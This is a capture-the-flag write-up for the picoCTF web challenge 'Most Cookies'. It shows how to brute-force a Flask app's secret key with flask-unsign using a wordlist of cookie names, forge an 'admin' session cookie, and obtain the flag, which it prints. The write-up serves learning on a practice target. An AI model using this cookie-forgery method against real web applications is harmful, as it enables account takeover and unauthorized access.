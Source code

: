 Most Cookies
===
Challenge Details
---
![picoCtf_Most_cookies](https://user-images.githubusercontent.com/96666980/196559439-90168289-f9fc-4154-8969-1f7f11a4b7ce.png)

---
##### <a href="https://play.picoctf.org/practice/challenge/177?category=1&page=2">link to the challenge</a>
---
Solution
---  

after analyzing the[`server.py`](https://github.com/Wise-Cpt/CTF-Writeups/blob/main/Web/picoCTF-Most%20Cookies/server.py)  file. I found these two pieces of code very useful
```
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```

```
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

```  
**-The first one is about the secret key **
**-The second one is about the flag **

So in order to get the secret key it's clear that we can find it in the list 'cookie_names' in [`server.py`](https://github.com/Wise-Cpt/CTF-Writeups/blob/main/Web/picoCTF-Most%20Cookies/server.py). We can put the words in wordlist to use it later to brute force the secret key.
lets call the python script with `script.py` and the wordlist with `wordlist.txt`
```
words = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

print('\n'.join(words))
```
```
$ python3 script.py > wordlist.txt
```
Well, now we back to the second piece of code we see that if the check == "admin" in the session we get the flag.

lets get the session value from the website (click on inspect then Application>Cookies>session), and decode it with `flask-unsign`
```
$ flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y05xZQ._dy1eNGOeXsDZmGMww0lIHb_GFY"
```
output will be like this
```
{'very_auth': 'blank'}
```
now it's time to use the wordlist to get the secret key

```
$ flask-unsign --unsign --wordlist cookie_wordlist.txt --server "http://mercury.picoctf.net:65344/"
```
and we get the secret key which is 'fortune'

now lets change the value of 'very_auth' from 'blank to 'admin' 

```
$ flask-unsign --sign --secret 'fortune' --cookie "{'very_auth': 'admin'}"
```
output will be like this
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y09BCg.gyB58CCB-vkh54EuAzrRhDWc7iA
```
now just change the session value of the wbsite with this last one and reload the page you'll get the flag.
#### Flag:
 `picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`



